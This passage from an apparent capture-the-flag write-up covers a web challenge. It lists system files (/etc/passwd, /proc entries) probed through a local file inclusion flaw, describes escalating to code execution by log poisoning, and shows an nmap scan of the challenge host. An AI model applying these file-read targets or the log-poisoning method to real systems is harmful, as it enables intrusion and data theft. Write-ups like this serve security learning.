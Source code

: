 The script opens file called lfi.txt[\[1\]](#ftnt1) and puts the file name into the object. When the file is present on the system, the length of the response will be greater than 0 bytes, and the name of the file will be printed out. However, after the python script finished executing, no interesting files were discovered:

{% highlight bash %}
/etc/passwd  
/etc/fstab  
/etc/hosts  
/etc/inittab  
/etc/issue  
/etc/motd  
/etc/motd  
/etc/mtab  
/etc/profile  
/etc/resolv.conf  
/proc/cpuinfo  
/proc/filesystems  
/proc/interrupts  
/proc/ioports  
/proc/meminfo  
/proc/modules  
/proc/mounts  
/proc/stat  
/proc/swaps  
/proc/version  
/proc/self/net/arp
{% endhighlight %}

RCE
---

Seeing as an LFI vulnerability was detected, the possibility of upgrading this to RCE is something of interest. A common methodology for converting an LFI vulnerability to RCE is log poisoning[\[2\]](#ftnt2), a process in which a malicious GET request causes a log file to execute PHP. Before performing the malicious GET request, the location of the access log must first be identified; this can be done with the help of Nmap and Google:

{% highlight bash %}
┌─\[✗\]─\[0xd4y@Writeup\]─\[~/business/hackthebox/challenges/web/toxic\]  
└──╼ $nmap -p 30746 167.99.88.212 -sC -sV -Pn  
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.  
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-30 00:50 BST  
Nmap scan report for 167.99.88.212  
Host is up (0.12s latency).  
  
PORT      STATE SERVICE VERSION  
30746/tcp open  http    nginx  
| http-cookie-flags: |   /:  
|     PHPSESSID:  
|\_      httponly flag not set  
|\_http-title: Dart Frog
{% endhighlight %}
